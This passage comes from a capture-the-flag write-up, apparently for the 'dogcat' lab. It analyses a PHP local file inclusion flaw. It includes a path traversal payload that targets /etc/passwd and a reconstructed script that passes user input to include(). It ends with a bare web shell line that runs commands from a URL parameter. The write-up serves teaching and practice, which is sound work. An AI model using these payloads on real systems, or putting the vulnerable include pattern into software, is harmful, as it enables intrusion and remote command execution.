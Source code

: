 If we were to inject a payload such as ```../../../etc/passwd%00cat```, it would cause the backend php script to return an unhandled error message like the one below: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-26 08_24_23-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Triggering an error message</i></center>
<br/>

Another important thing to mention is that the backend PHP script append the extension  ```.php``` to any value injected in the ```view``` parameter. For example, if we were to inject ```cat.php```, we would get the following error message: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-26 08_28_49-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Appended .php extension</i></center>

Based on this analysis, I would assume that the backend PHP script might look to something like the following:

```php
$file = $_GET['view'];
// Input validation
if(!preg_match("/\b(cat|dog)\b/i", $file)){
    echo "Sorry, only dogs or cats are allowed.";
    exit;
} else {
     $file = $file . '.php'; // Append '.php' to the $file variable
    include($file);
}
```
* This PHP script takes in a user input ```view``` from the URL query string using ```$_GET``` and then validate the input using ```preg_match()``` to ensure it contains the string ```cat``` or ```dog```. If the input does not contain either of these strings, it will output the error message ```"Sorry, only dogs or cats are allowed."``` and exit the script. Otherwise, the code will append the extension ```.php``` to the $file variable and then include the file specified by the user using  ```include()```.


[Output]: <?php system($_GET['cmd']); ?>